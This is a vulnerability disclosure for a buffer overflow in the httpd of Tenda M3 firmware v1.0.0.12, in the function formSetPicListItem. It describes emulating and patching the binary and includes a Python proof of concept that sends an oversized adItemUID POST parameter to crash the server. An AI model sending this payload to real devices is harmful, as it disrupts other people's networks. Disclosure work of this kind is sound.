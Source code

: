 # Tenda M3 contains Buffer Overflow Vulnerability

## overview

- type: buffer overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a buffer overflow. The vunlerability is in fucntion `formSetPicListItem` 

![image-20220819152012302](readme.assets/image-20220819152012302.png)

In this function, it copies POST parameter `adItemUID` to buffer in `.bss`  

![image-20220819152023719](readme.assets/image-20220819152023719.png)

If `v21` is too long, it will causes dos(deny of service)

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "adItemUID": "a"*0x2000
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setPicListItem", data=data, cookies=cookies)
print(res.content)
```

![image-20220819152048460](readme.assets/image-20220819152048460.png)

![image-20220819152105588](readme.assets/image-20220819152105588.png)

![image-20220819152117999](readme.assets/image-20220819152117999.png)

![image-20220819152140567](readme.assets/image-20220819152140567.png)